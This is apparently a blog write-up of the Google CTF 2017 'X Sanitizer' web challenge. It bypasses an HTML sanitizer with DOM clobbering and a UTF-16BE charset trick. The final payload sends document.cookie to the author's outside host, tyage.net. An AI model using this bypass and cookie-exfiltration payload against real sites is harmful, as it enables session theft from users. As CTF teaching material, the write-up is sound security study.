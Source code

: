 ```yaml
---
title: Google CTF 2017 – The X Sanitizer writeup
author: tyage
type: post
date: 2017-06-25T15:57:35+00:00
url: /?p=990
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:2958:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">onload <span style="color: #339933;">=</span> _<span style="color: #339933;">=&gt;</span> setTimeout<span style="color: #009900;">&#40;</span>_<span style="color: #339933;">=&gt;</span> parent.<span style="color: #660066;">postMessage</span><span style="color: #009900;">&#40;</span>document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span><span style="color: #339933;">,</span> location.<span style="color: #660066;">origin</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #CC0000;">1000</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    remove <span style="color: #339933;">=</span> node <span style="color: #339933;">=&gt;</span> <span style="color: #009900;">&#40;</span>node <span style="color: #339933;">==</span> document<span style="color: #009900;">&#41;</span> <span style="color: #339933;">?</span> document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span> <span style="color: #339933;">=</span> <span style="color: #3366CC;">''</span> <span style="color: #339933;">:</span> node.<span style="color: #660066;">parentNode</span>.<span style="color: #660066;">removeChild</span><span style="color: #009900;">&#40;</span>node<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    document.<span style="color: #660066;">addEventListener</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;securitypolicyviolation&quot;</span><span style="color: #339933;">,</span> e <span style="color: #339933;">=&gt;</span> remove<span style="color: #009900;">&#40;</span>e.<span style="color: #660066;">target</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    document.<span style="color: #660066;">write</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src <span style="color: #000099; font-weight: bold;">\\</span>'</span>none\\<span style="color: #3366CC;">'; script-src *&quot;&gt;&lt;body&gt;'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">onload = _=&gt; setTimeout(_=&gt; parent.postMessage(document.body.innerHTML, location.origin), 1000);
    remove = node =&gt; (node == document) ? document.body.innerHTML = '' : node.parentNode.removeChild(node);
    document.addEventListener(&quot;securitypolicyviolation&quot;, e =&gt; remove(e.target));
    document.write('&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src \\'none\\'; script-src *&quot;&gt;&lt;body&gt;');</p></div>
    ";i:2;s:1070:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">with<span style="color: #009900;">&#40;</span>document<span style="color: #009900;">&#41;</span> remove<span style="color: #009900;">&#40;</span>document <span style="color: #339933;">===</span> currentScript.<span style="color: #660066;">ownerDocument</span> <span style="color: #339933;">?</span> currentScript <span style="color: #339933;">:</span> querySelector<span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'link[rel=&quot;import&quot;]'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #006600; font-style: italic;">// &lt;script src=x&gt;&lt;/script&gt;</span></pre></td></tr></table><p class="theCode" style="display:none;">with(document) remove(document === currentScript.ownerDocument ? currentScript : querySelector('link[rel=&quot;import&quot;]'));
    // &lt;script src=x&gt;&lt;/script&gt;</p></div>
    ";i:3;s:362:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=remove&gt;&lt;/form&gt;
    &lt;link rel=import href=//tyage.net&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;form name=remove&gt;&lt;/form&gt;
    &lt;link rel=import href=//tyage.net&gt;</p></div>
    ";i:4;s:1204:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=currentScript&gt;&lt;/form&gt;
    &lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;form name=currentScript&gt;&lt;/form&gt;
    &lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="https://sanitizer.web.ctfcompetition.com">https://sanitizer.web.ctfcompetition.com</a></p>
<p>Copy of source code:<br />
<a href="https://gist.github.com/tyage/6eabacf6001bd068287842b1052132e4">https://gist.github.com/tyage/6eabacf6001bd068287842b1052132e4</a></p>
<p>The application sanitize input and render it.</p>
<h2>Sanitizing method</h2>
<p>The method of sanitizing is follow:</p>
<p>1. Remove the words that match with <code><i>/meta|srcdoc|utf-16be/i</i></code> from input.<br />
2. Register a ServiceWorker then, render input in iframe<br />
3. In iframe, it load <code>&lt;script src=sanitize&gt;</code> which executes the following code:</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">onload <span style="color: #339933;">=</span> _<span style="color: #339933;">=&gt;</span> setTimeout<span style="color: #009900;">&#40;</span>_<span style="color: #339933;">=&gt;</span> parent.<span style="color: #660066;">postMessage</span><span style="color: #009900;">&#40;</span>document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span><span style="color: #339933;">,</span> location.<span style="color: #660066;">origin</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #CC0000;">1000</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
remove <span style="color: #339933;">=</span> node <span style="color: #339933;">=&gt;</span> <span style="color: #009900;">&#40;</span>node <span style="color: #339933;">==</span> document<span style="color: #009900;">&#41;</span> <span style="color: #339933;">?</span> document.<span style="color: #660066;">body</span>.<span style="color: #660066;">innerHTML</span> <span style="color: #339933;">=</span> <span style="color: #3366CC;">''</span> <span style="color: #339933;">:</span> node.<span style="color: #660066;">parentNode</span>.<span style="color: #660066;">removeChild</span><span style="color: #009900;">&#40;</span>node<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
document.<span style="color: #660066;">addEventListener</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;securitypolicyviolation&quot;</span><span style="color: #339933;">,</span> e <span style="color: #339933;">=&gt;</span> remove<span style="color: #009900;">&#40;</span>e.<span style="color: #660066;">target</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
document.<span style="color: #660066;">write</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'&lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;default-src <span style="color: #000099; font-weight: bold;">\\</span>'</span>none\\<span style="color: #3366CC;">'; script-src *&quot;&gt;&lt;body&gt;'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>4. The code removes the node which violates CSP.<br />
5. To prevent loading the attacker&#8217;s script, ServiceWorker overrides the response of contents as following code:</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">with<span style="color: #009900;">&#40;</span>document<span style="color: #009900;">&#41;</span> remove<span style="color: #009900;">&#40;</span>document <span style="color: #339933;">===</span> currentScript.<span style="color: #660066;">ownerDocument</span> <span style="color: #339933;">?</span> currentScript <span style="color: #339933;">:</span> querySelector<span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'link[rel=&quot;import&quot;]'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #006600; font-style: italic;">// &lt;script src=x&gt;&lt;/script&gt;</span></pre></td></tr></table></div>

<p>6. This code remove currentScript or html import element.<br />
7. Now, <code>doument.body</code> returns an sanitized html!</p>
<h2>Evade from sanitization</h2>
<p>But wait, why google uses <code>with(document)</code> ? (It is deprecated.)<br />
Then, I thought I can disable the execution of <code>document.remove</code> by using the technique of <a href="https://github.com/ctfs/write-ups-2014/tree/master/hack-lu-ctf-2014/hotcows-dating">HotCows Dating</a></p>
<p>OK. Let&#8217;s input the html below and confirm that it is not sanitized.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=remove&gt;&lt;/form&gt;
&lt;link rel=import href=//tyage.net&gt;</pre></td></tr></table></div>

<h2>Execute payload</h2>
<p>But sadly, the content which html import load is overrode by ServiceWorker.</p>
<p>So some techniques are needed to execute attacker&#8217;s script.</p>
<p>Soon, I realized that we can import the url: <code>/sanitize?html=URL_ENCODED_HTML</code>.<br />
And <code>URL_ENCODED_HTML</code> can be a string that is not matched with <code><i>/meta|srcdoc|utf-16be/i</i></code> (e.g. <code><%6deta></code>).</p>
<p>Next, we use <code>utf-16be</code> to execute our payload.</p>
<p>Here is useful link: <a href="http://masatokinugawa.l0.cm/2012/05/utf-16content-security-policy.html">http://masatokinugawa.l0.cm/2012/05/utf-16content-security-policy.html</a></p>
<p><code>/sandbox?html=%00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)</code> returns <code><i>&lt;!doctype HTML&gt;\n&lt;script src=sanitize&gt;\n&lt;/script&gt;\n&lt;body&gt;\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x001\x00)</i></code>.</p>
<p>When charset is <code>utf-16be</code>, it is interpreted as <code><i>㰡摯捴祰攠䡔䵌㸊㱳捲楰琠獲挽獡湩瑩穥㸊㰯獣物灴㸊㱢潤社=alert(1)</i></code></p>
<p>OK, now we can get flag in cookie!</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;form name=currentScript&gt;&lt;/form&gt;
&lt;link rel=&quot;import&quot; href=&quot;/sandbox?html=&lt;script src=%22/sandbox%3Fhtml=%2500%3D%25001%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500%3D%2500%2522%2500/%2500/%2500t%2500y%2500a%2500g%2500e%2500.%2500n%2500e%2500t%2500/%2500%2522%2500+%2500(%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500)%22 charset=%22%55TF-16BE%22&gt;&lt;/script&gt;&quot;&gt;</pre></td></tr></table></div>

<p>flag is: <code>CTF{no-problem-this-can-be-fixed-by-adding-a-single-if}</code></p>
